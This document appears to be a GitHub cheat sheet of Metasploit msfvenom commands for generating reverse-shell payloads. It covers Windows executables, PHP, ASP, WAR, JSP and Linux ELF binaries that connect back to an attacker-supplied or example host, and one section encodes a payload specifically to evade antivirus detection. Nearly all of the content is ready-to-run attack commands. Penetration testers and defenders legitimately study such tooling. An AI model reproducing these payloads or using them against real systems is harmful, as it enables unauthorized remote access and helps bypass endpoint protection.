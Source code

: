 # Metasploit Revershell CheatSheet
```sh
Msfvenom: 
msfvenom -p windows/shell_reverse_tcp LHOST=<your ip> LPORT=<your port> -f exe -o shell_reverse.exe
```
## To avoid AV detection, use encryption
```sh
msfvenom -p windows/shell_reverse_tcp LHOST=<your ip> LPORT=<your port> -f exe -e x86/shikata_ga_nai -i 9 -o shell_reverse_msf_encoded.exe
```

## php
```sh
msfvenom -p php/meterpreter_reverse_tcp LHOST=<your ip> LPORT=<your port> -f raw > shell.php
```

## ASP
```sh
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<your ip> LPORT=<your port> -f asp > shell.asp
```

## War
```sh
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<your ip> LPORT=<your port> -f war > shell.war
```

## JSP
```sh
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<your ip> LPORT=<your port> -f raw > shell.jsp

```

## Binary
```sh
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.1.101 LPORT=443 -f elf > shell.elf
```

## List linux meterpreter payloads
```sh
msfvenom --list | grep xxxx
```

## Send linux shell to meterpreter
```sh
msfvenom -p linux/x64/meterpreter/reverse_tcp lhost= lport= -f elf -o msf.bin (set multi handler then)
```
